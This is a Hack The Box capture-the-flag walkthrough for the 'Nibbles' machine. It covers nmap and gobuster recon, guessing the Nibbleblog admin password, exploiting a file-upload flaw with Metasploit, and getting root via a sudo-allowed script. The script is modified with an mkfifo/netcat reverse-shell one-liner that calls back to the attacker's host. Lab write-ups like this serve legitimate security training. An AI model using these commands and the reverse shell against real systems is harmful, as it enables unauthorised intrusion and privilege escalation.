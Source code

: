 ```yaml
---
title: Nibbles HTB Writeup
author: 0xGamer
date: 2021-01-25 9:16:00 
categories: [Walkthru, Writeup, Hackthebox]
tags: [Nibble]
math: true
mermaid: true
image: https://cdn.jsdelivr.net/h/cotes2020/chirpy-images/commons/devices-mockup.png
---
```


This post contains the walkthru of the Nibbles box from hackthebox. This box has been suggested as OSCP like.

## We will start with an nmap.

### Nmap

```bash
[★]$ nmap -sC -sV -v 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-25 04:20 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### We see that port 80 (Webpage) and port 22 (SSH) are open.

 #### Lets visit the webpage.

![image-20210125095401157](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles1.png)

#### We see a page with only Hello world! written on it... Lets check the source code

#### ![image-20210125095509153](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles2.png)

### We see a /nibbleblog... Lets visit it 

![image-20210125095624746](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles3.png)

### I checked the stuff but nothing interesting here on those categories and pages. Lets run  gobuster against it.

```bash 
[★]$ gobuster dir -u=10.10.10.75/nibbleblog -w=/usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/25 04:33:04 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
===============================================================
2021/01/25 04:34:10 Finished
===============================================================
```

#### Hmm, admin.php is interesting...

![image-20210125100619910](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles4.png)

#### Lets try the common usernames and passwords like, admin:admin or nibbles:nibbles or admin:nibbles or nibbles:admin	

#### We see that the username admin and the password nibbles work...

![image-20210125102016119](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles5.png)

#### We get logged in but there is nothing interesting here

### Lets use searchsploit to look for an exploit on nibbleblogs

```bash
[★]$ searchsploit nibbleblog
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                 | php/remote/38489.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

#### Lets start up msfconsole and use the Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   exploit.

 ###### We are going to use this command in msfconsole to select the exploit

```bash
use exploit/multi/http/nibbleblog_file_upload
```

##### Now lets use these commands to select the payload and options

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
```

```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
```

```
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

### Now you can see that we got shell as nibbler

![image-20210125103315915](C:\Users\Rishiraj Behki\AppData\Roaming\Typora\typora-user-images\nibbles6.png)

#### Now lets use this command to spawn a bash shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Great now we can cd /home/nibbler and cat the user flag.

#### Lets run sudo -l to check our permissions

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### Hmm we can run  monitor.sh... Let unzip the personal folder so we can access the monitor file

```
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cd personal/stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
monitor.sh

```

#### Lets check the monitor.sh file...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```

#### Lets modify the monitor.sh to get a reverse shell...

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 > /tmp/f" >> monitor.sh
```

#### Now lets listen on port 1234 with netcat on a new terminal

```
[★]$ nc -nvlp 1234
listening on [any] 1234 ...

```

#### Now lets run the monitor.sh file on the box.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

#### Now can check the other terminal and we can see we got root.

```
# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
c8a26e...
```



# Thank you!

